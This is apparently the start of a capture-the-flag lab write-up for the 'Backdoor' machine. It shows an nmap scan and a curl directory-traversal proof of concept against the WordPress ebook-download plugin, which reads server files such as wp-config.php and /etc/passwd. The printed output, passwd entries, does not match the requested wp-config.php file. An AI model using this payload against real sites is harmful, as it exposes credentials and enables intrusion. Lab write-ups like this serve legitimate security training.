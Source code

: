 # Backdoor

---

- nmap TCP scan:

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4de43384657db4c213b69f3db3c6288 (RSA)
|   256 aac9fc210f3ef4ec6b3570262253ef66 (ECDSA)
|_  256 d28be4ec0761aacaf8ec1cf88cc1f6e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
1337/tcp open  waste?
```

- `Home` button reveals the domain name `backdoor.htb`, added to `/etc/hosts`
- found `/wp-content/plugins` and `ebook-download` plugin
- found directory traversal vulnerability using `searchsploit`
- poc:

```bash 
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

<SNIP>
```

